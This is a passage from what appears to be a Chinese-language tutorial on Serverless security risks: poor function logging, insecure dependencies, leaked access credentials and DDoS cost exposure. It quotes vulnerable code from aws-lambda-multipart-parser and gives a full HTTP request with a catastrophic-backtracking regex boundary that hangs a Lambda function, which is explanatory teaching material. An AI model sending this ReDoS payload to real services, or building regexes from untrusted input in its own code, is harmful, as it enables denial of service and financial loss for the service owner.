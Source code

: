虽然云厂商都对函数提供了日志和监控功能，但这些工具都很新，提供的能力也有限，要想利用这些工具来可视化 Serverless 架构的运行情况还非常困难。

传统架构下，对于一个比较复杂的应用，你可能就只有 10 台服务器，这时你可以比较容易知道它们是否正常运行，但当你有成百上千个函数时，就很难确定是否所有函数都按预期执行了，而且这些函数还会产生大量的日志，你也很难确定这些日志哪些是重要的，函数级别的日志分析工具也还比较缺乏。

函数日志和监控能力的不足，就会导致面临攻击时，你就很难针对 Serverless 攻击进行报警，也很难通过日志去分析、排查并解决问题。

* **第三方依赖不安全**

通常 Serverless 函数都是执行单个离散任务的一小段代码，很多时候为了完成业务逻辑，函数就要依赖第三方软件包、开源库，甚至通过 API 调用第三方远程 Web 服务。

虽然 Serverless 函数的执行环境是一个安全隔离的环境，但如果函数的第三方依赖不安全，也很可能导致函数不安全。

* **敏感信息泄露**

随着应用规模和复杂性的增长，应用需要维护越来越多的敏感信息，比如访问凭证（AccessKeyId、AccessKeySecret 和 SecrityToken）、数据库密码、加密密钥等。

**常见的错误做法是：** 把这些敏感信息简单地放在项目配置文件中，随代码一起上传。这样任何能访问代码的开发者都能访问这些敏感信息。另外，有的开发者不小心把这些敏感信息上传到了公开的代码仓库中（如 Github）。我曾经目睹很多访问凭证泄露的案例，公司的机密信息直接暴露给了未经授权的用户，更严重的是，公共的搜索引擎还对敏感数据进行了索引，使每个人都能轻松获取这些数据。

* **DDoS 和资损**

DDoS 几乎成了每个暴露在互联网上的服务面临的主要风险之一。虽然 Serverless 的自动弹性伸缩让你不用担心面对流量高峰时的系统扩展能力，但也给你带来了一些问题，比如大量恶意运行函数造成资损。

之前有一个 aws-lambda-multipart-parser 的包中就有一个漏洞，攻击者就可以使用该漏洞对 Lambda 函数发起 DDoS 攻击，使函数一直挂起直到超时。该包中有这样一段代码：

```javascript
module.exports.parse = (event, spotText) => {
    // 从 Content-Type 中获取 boundary 属性
    const boundary = getValueIgnoringKeyCase(event.headers, 'Content-Type').split('=')[1];
    // 根据 boundary 从消息体中解析数据
    const body = (event.isBase64Encoded ? Buffer.from(event.body, 'base64').toString('binary') : event.body)
        .split(new RegExp(boundary))
        .filter(item => item.match(/Content-Disposition/))
}
```

**这段代码逻辑很简单：** 首先从 HTTP Headers 中的 Content-Type 字段里面获取 boundary 属性，然后根据 boundary 属性来构造正则表达式，从 HTTP body 中解析数据。

由于 boundary 属性完全在调用方的控制之下，因此恶意用户就可以利用 boundary 构造请求数据对函数发起 DDoS 攻击：

```js
POST /app HTTP/1.1
Host: xxxxxxxxxxx.us-east-1.amazonaws.com
Content-Length: 327
Content-Type: multipart/form-data; boundary=(.+)+$
Connection: keep-alive
(.+)+$
Content-Disposition: form-data; name="text"
Content
(.+)+$
Content-Disposition: form-data; name="file1"; filename="a.txt"
Content-Type: text/plain
Content of a.txt.
(.+)+$
Content-Disposition: form-data; name="file2"; filename="a.html"
Content-Type: text/html
<!DOCTYPE html><title>Content of a.html.</title>
(.+)+$
```
